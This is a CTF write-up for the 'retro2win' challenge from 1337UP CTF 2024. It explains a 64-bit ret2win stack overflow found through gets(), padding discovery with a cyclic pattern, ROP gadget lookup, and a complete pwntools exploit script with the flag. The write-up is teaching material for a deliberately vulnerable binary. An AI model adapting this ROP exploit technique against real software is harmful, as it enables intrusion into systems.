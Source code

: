 # Description
So retro.. So winning..

`nc retro2win.ctf.intigriti.io 1338`

# Flag
INTIGRITI{3v3ry_c7f_n33d5_50m3_50r7_0f_r372w1n}

# Analysis
From the challenge name you can guess this is probably a ret2win challenge. First things first, check the type of file it is so we know is it 32 or 64 bit. 

![image](https://github.com/user-attachments/assets/9d930155-f3c7-4d6c-9cb7-f3ed45557945)

This binary is a 64 bit. Now we inspect the code, from the code we can see there is a secret feature that isn't displayed when the program is run normally. A player can type in "1337" to enter the cheat code panel where they can submit a cheat code in hopes of accessing the cheat mode. So this must be our goal how can we reach the cheat mode. Inspecting the enter_cheatcode function we can see that it uses gets meaning it is vulnerable to a buffer overflow.

![image](https://github.com/user-attachments/assets/ab2c2634-3d85-4a96-becf-1ea650372359)

To know what you need to search for you need to be aware of the payload format for 64 bit elf files as they are different from the 32 bit files. You can watch this video by CryptoCat to understand more https://youtu.be/vO1Uj2v3r7I?si=OuOVRpZTLXcwDxHs but basically the payload should have this structure:
```
payload = padding + pop_rdi_address + parameter1 + pop_rsi_r15_address + parameter2 + junk(8 bytes of padding) + win_address
```

Now we need to figure out what's the padding so we can begin to prepare our payload. To find the padding we can use gdb, in my case I'm using pwndbg but feel free to use whatever you prefer. First things first, create a cyclic pattern if you don't know how you can do it with the `cyclic 100` or any value command. Next we inject this at the gets. 

![image](https://github.com/user-attachments/assets/0253ec97-ba76-4221-9d61-7c8d11313b5e)

In pwndbg it's alot easier to see the registers which is why I use it as you can see the rsp register has been overflowed.

![image](https://github.com/user-attachments/assets/bbf1ba86-83d9-41ec-bf86-6ce2a82466be)

Now to figure out the padding you can take the first 8 bytes of the overflowed string and use the command `cyclic -l <string>`

![image](https://github.com/user-attachments/assets/9e3d0e85-30de-49ac-a2f3-8285c794174a)

Nice, now we know our padding is 24 bytes, which looks like this in our payload `A * 24` .  Next we need to find our pop rsi and pop rdi addresses, we can use the ropper tool for this. Simply, use the command `ropper --file retro2win --search "pop rsi" and ropper --file retro2win --search "pop rsi"` take the address starting from the 4 the 0's are irrelevant if you are using pwntools for your exploit. 

![image](https://github.com/user-attachments/assets/6fd3502a-c9c3-470f-8c2e-bcdffcbec2e9)

Lastly, we need to find the address of the cheat_mode function. You can do so using gdb or once again the debugger of your choice. Using gdb just use the command `disass <function_name>` . In this case our win address is `0x400736`

![image](https://github.com/user-attachments/assets/1dbb2e96-2a1f-4419-b503-580791ad4b98)

Now that we have all of the information we need we can build our payload.

# Solution
The payload that I used is as below:
```
from pwn import *

# Connect to the remote service
p = remote('retro2win.ctf.intigriti.io', 1338)

# Address of the cheat_mode function (replace with actual address from disassembly)
cheat_mode_address = 0x00400736

# Calculate padding:
# - 16 bytes for the buffer `v1`
# - 8 bytes for the saved return address
# - Additional padding to align the arguments

# The v1 buffer will be filled with 'A's, then we overwrite the return address with cheat_mode address
padding = b"A" * 24  

poprdi = p64(0x4009b3)

poprsi = p64(0x4009b1)

junk = b"B" * 8

# Overwrite return address with the cheat_mode address
address = p64(cheat_mode_address)

# Pass a1 and a2 as arguments to cheat_mode
a1 = p64(0x2323232323232323)
a2 = p64(0x4242424242424242)

payload = padding + poprdi + a1 + poprsi + a2 + junk + address

# Send the exploit
p.recvuntil("Select an option:")
p.sendline("1337")  # Send "1337" to trigger the cheat mode
p.recvuntil("Enter your cheatcode:")  # Wait for prompt
p.sendline(payload)  # Send the crafted payload

# Read and print the output from the server
print(p.recvall())  # Print all the output from the server

# Interact with the process to see any further output (if needed)
p.interactive()

```

Running this gives you the flag :D

![image](https://github.com/user-attachments/assets/f756c6a0-fc47-4fef-8ed7-f1f2ee272f0c)


#L337upCTF2024 #ret2win
